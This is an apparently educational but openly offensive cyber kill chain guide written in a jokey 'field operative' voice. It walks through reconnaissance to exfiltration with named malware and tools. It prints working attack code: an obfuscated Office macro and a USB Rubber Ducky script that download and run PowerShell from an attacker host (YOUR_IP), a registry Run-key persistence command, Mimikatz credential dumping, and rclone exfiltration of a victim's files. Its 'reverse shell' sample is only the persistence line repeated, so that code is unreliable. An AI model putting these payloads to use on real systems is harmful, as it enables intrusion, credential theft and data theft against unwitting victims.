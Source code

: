 Cyber Kill Chain – Operation: PWN EVERYTHING
*Presented by: Agent 1337, InfoSec's slickest field operative*
Includes working payload code samples for lab use.
1. Reconnaissance – “The Creeper’s Crawl”
	**Mission:** Know thy target.
Tactics:	- Passive: Google dorking, LinkedIn stalking, Shodan scans
Tactics:	- Active: Phishing domain lookups, WHOIS scraping
Payloads:	- N/A (no code dropped here — just info slurped)
Interactive Tip:	> Try using “theHarvester” and see what emails and domains fall out like candy from a piñata.

2. Weaponization – “Crafting the Digital Dagger”
	**Mission:** Combine malware with a delivery vehicle.
Tactics:	- Create malicious PDF/Excel with macros
Tactics:	- Bind a reverse shell to a trojanized installer
Payloads:	- Meterpreter payload in a CV-laced PDF
Payloads:	- Emotet in an invoice-themed Word doc
Payloads:	- Custom PowerShell Empire script
Witty Note:	> It’s like putting a snake in a birthday cake. Only less festive. And more... root access.

Sample Payload Code:
' VBA Macro Sample (obfuscated-ish)
Sub AutoOpen()
    Dim p1 As String, p2 As String, p3 As String
    p1 = "pow"
    p2 = "ers"
    p3 = "hell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"
    Dim fullCmd As String
    fullCmd = p1 & p2 & p3
    Shell fullCmd, vbHide
End Sub

3. Delivery – “The Trojan Horse Uber Eats Edition”
	**Mission:** Get the payload to the victim.
Tactics:	- Phishing emails (“HR needs your signature!”)
Tactics:	- Drive-by downloads
Tactics:	- USB drops labeled “Salary Info – 2025”
Payloads:	- Malicious link to a fake login portal
Payloads:	- MalDoc macro triggering reverse shell
Payloads:	- Payload-laced USB with Rubber Ducky script
Mini-Game:	> Can you spot the phishing email before HR opens it?

4. Exploitation – “The Big Bang”
	**Mission:** Trigger the payload to breach the system.
Tactics:	- Macro executes on doc open
Tactics:	- Exploit a zero-day (think: EternalBlue)
Tactics:	- JavaScript launches shell from browser
Payloads:	- CVE-2021-40444 in MS Office
Payloads:	- Log4Shell for a juicy backend foothold
Payloads:	- Malicious macro dropping Cobalt Strike beacon
Security Theater:	> User: “Why is my screen flickering?”
> Attacker: “That’s just... your new dark mode.”

5. Installation – “Staying for Dinner”
	**Mission:** Set up shop.
Tactics:	- Drop backdoors
Tactics:	- Create persistence via registry run keys
Tactics:	- Install RATs (Remote Access Trojans)
Payloads:	- NanoCore RAT
Payloads:	- Cobalt Strike beacon install
Payloads:	- Scheduled task running encoded PowerShell
Security Tip:	> Always check your startup programs.

Sample Payload Code:
# PowerShell reverse shell persistence
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"

6. Command and Control (C2) – “Hello from the Other Side”
	**Mission:** Maintain remote access and issue commands.
Tactics:	- Encrypted HTTPS comms
Tactics:	- DNS tunneling
Tactics:	- Cloud-hosted C2 (Google Drive, Slack, etc.)
Payloads:	- Outbound beaconing from Metasploit handler
Payloads:	- Sliver C2 using mTLS
Payloads:	- Discord bot for exfil and tasking
Interactive Nugget:	> Try setting up a simulated C2 in a lab.

Sample Payload Code:
# Netcat listener
nc -lvnp 443

# Python HTTP server to host payloads
python3 -m http.server 80

7. Actions on Objectives – “Data, Gold, and Glory”
	**Mission:** Exfiltrate, destroy, encrypt, or spy.
Tactics:	- Data exfil via ZIP over HTTPS
Tactics:	- Deploy ransomware
Tactics:	- Harvest creds for lateral movement
Payloads:	- Rclone to sync files to attacker cloud
Payloads:	- LockBit/BlackCat ransomware drop
Payloads:	- Mimikatz for juicy credential buffet
Witty Farewell:	> If you hear ‘your files have been encrypted,’ the party’s over.

Sample Payload Code:
# Mimikatz example for credential extraction
sekurlsa::logonpasswords

# Rclone exfiltration
rclone copy C:\Users\victim\Documents remote:loot --config rclone.conf

Bonus Level: DEFENSE MODE – Your Counterplay
	- Recon: Monitor open-source mentions
	- Delivery: Email filtering + awareness
	- Exploit/Install: EDR + patching
	- C2: Detect beaconing patterns
	- Objectives: DLP, SIEM alerts, strong segmentation

Bonus Payload: Rubber Ducky – USB Ninja Moves
This Ducky Script payload opens PowerShell, downloads a remote reverse shell script, and executes it silently.
Rubber Ducky Payload (Ducky Script):
DELAY 1000
GUI r
DELAY 500
STRING powershell -w hidden -nop -c "IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"
ENTER
Example shell.ps1 for reverse connection:
# PowerShell reverse shell persistence
Set-ItemProperty -Path "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" -Name "Updater" -Value "powershell -w hidden -nop -c IEX(New-Object Net.WebClient).DownloadString('http://YOUR_IP/shell.ps1')"





